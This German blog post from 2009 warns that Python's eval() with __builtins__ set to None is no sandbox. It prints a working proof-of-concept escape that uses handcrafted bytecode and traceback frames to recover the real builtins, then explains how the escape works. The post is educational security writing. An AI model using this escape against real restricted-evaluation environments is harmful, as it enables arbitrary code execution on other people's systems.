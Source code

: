 eval() in Python ist nicht sicher
=================================

:date: 2009-09-19 13:12:42
:tags: de, python


Häufig findet man Leute, die gerne mathematische Ausdrücke in Python
evaluieren wollen. Dabei kommen sie auf die Idee, dass man dazu ja
*eval()* benutzen könnte. Und damit das ganze auch noch sicher ist,
übergibt man eigene globals und locals, in den man optimalerweise
*__builtins__* auf ``None`` setzt, da dann CPythons *restricted mode*
aktiviert wird, ein Überbleibsel aus vergangenen Zeiten. Im *restricted
mode* darf man auf besstimme Attribute von Funktionsobjekten und
Klassen nicht zugreifen, wie etwa *__defaults__*, womit ein trügerisches
Gefühl von Sicherheit gegeben wird.

Warum ist das nicht sicher? Zunächst einmal hat man irgendwann
gemerkt, dass man in CPython einfach keine sichere Sandbox hinbekommt,
weshalb man diesen Mode nicht mehr so wirklich pflegt. Seit Python 2.6
haben Generatoren ein ``gi_code``-Attribut, wodurch man letztlich auch
eigene Code-Objekte und damit beliebige Funktionen erstellen kann. Das
führt uns also zu folgendem Code:

.. code-block:: python

   ns = dict(__builtins__=None)
   
   print eval("""(lambda d={}, t=(1).__class__.__class__:
                   (t(lambda: 23)(
                       t((_ for _ in []).gi_code)(
                           0, 1, 4, 67,"""
                           # SETUP_EXCEPT
                           r"""'y\x0c\x00'"""
                           # LOAD_CONST 1
                           r"""'d\x01\x00'"""
                           # LOAD_CONST 0
                           r"""'d\x02\x00'"""
                           # BINARY_DIVIDE
                           r"""'\x15'"""
                           # POP_TOP
                           r"""'\x01'"""
                           # POP_BLOCK
                           r"""'W'"""
                           # JUMP FORWARD 9
                           r"""'n\x09\x00'"""
                           # POP_TOP
                           r"""'\x01'"""
                           # POP_TOP
                           r"""'\x01'"""
                           # Now the traceback object is on TOS
                           # STORE_GLOBAL tb
                           r"""'a\x00\x00'"""
                           # JUMP_FORWARD 1
                           r"""'n\x01\x00'"""
                           # END_FINALLY
                           r"""'X'"""
                           # LOAD_CONST None
                           r"""'d\x00\x00'"""
                           # RETURN_VALUE
                           """'S',
                           (None, 1, 0), ('tb', ), (),
                           'evil.py', 'evil', 1, ''
                       ), d, None, ()
                   )(),d['tb'].tb_frame.f_back.f_back.f_back.f_globals)[1])()""",
                   ns, ns)
		   
Führt man das aus, fällt einem auf, dass man damit an das richtige
*__builtins__*\ -Objekt kommt, und damit dann auch beispielsweise
*__import__* aufrufen kann. Wie funktioniert das aber? Zunächst einmal
holt man sich das Builtin *type* mit ``(1).__class__.__class__`` und
speichert es sich in *t* (indem man es als Default-Argument eines
lambdas benutzt und den eigentlichen Code im Körper des lambdas
schreibt und das lambda dann aufruft). Damit erstellt man dann ein
neues Code-Objekt, das man durch ``t((_ for _ in []).gi_code)`` bekommt
und damit dann ein neues Funktionsobjekt, das man mit ``t(lambda: 23)``
bekommt. Dieses Funktionsobjekt wird dann ausgeführt.

Was macht das konstruierte Funktionsobjekt beim Ausführen? Dazu schaut
man sich die folgende Funktion an:

.. code-block:: python

   def throws():
       try:
           1 / 0
       except:
           pass

Der Bytecode der Funktion sieht dabei wie folgt aus::

  3           0 SETUP_EXCEPT            12 (to 15)

  4           3 LOAD_CONST               1 (1)
              6 LOAD_CONST               2 (0)
              9 BINARY_DIVIDE
             10 POP_TOP
             11 POP_BLOCK
             12 JUMP_FORWARD             7 (to 22)

  5     >>   15 POP_TOP
             16 POP_TOP
             17 POP_TOP

  6          18 JUMP_FORWARD             1 (to 22)
             21 END_FINALLY
        >>   22 LOAD_CONST               0 (None)
             25 RETURN_VALUE
	     
Man beachte die drei ``POP_TOP``\ s im Mittelteil (der den except-Block
darstellt): CPython speichert bei einer Ausnahme den Typ der Ausnahme,
die Ausnahme selbst und ein Traceback-Objekt auf dem Stack (das, was
*sys.exc_info()* zurückliefert). Und bekanntlich kommt man mit
Traceback-Objekten an ein Frame-Objekt, und mit Frame-Objekten kann
man sich den Stack hochhangeln und kommt somit an die globals des
Aufrufers, in der man die richtigen *__builtins__* findet. Ergo
konstruiert man sich einfach eine Funktion, die das Traceback-Objekt
eben in einem globalen Namen speichert anstatt es einfach vom Stack
verschwinden zu lassen.
